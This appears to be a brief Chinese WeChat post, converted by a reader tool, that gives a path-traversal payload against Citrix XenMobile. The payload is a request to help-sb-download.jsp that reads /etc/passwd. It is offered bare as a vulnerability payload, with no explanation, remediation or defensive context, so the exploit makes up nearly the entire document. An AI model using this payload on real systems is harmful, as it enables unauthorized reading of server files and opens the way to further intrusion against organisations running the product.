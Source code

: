 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/Et6Zuhiq2YdI6zUep2vBtw)

![](https://mmbiz.qpic.cn/mmbiz_png/aPmkR80bcV34AWeTpyDqaI0MXqziaTYYeWtUJJImeRGhHiah8gVYoz7k5kzIgsyPZ7wqVr7D3epawibXrYViawnBfA/640?wx_fmt=png)

        XenMobile

漏洞 payload：

        /jsp/help-sb-download.jsp?sbFileName=../../../etc/passwd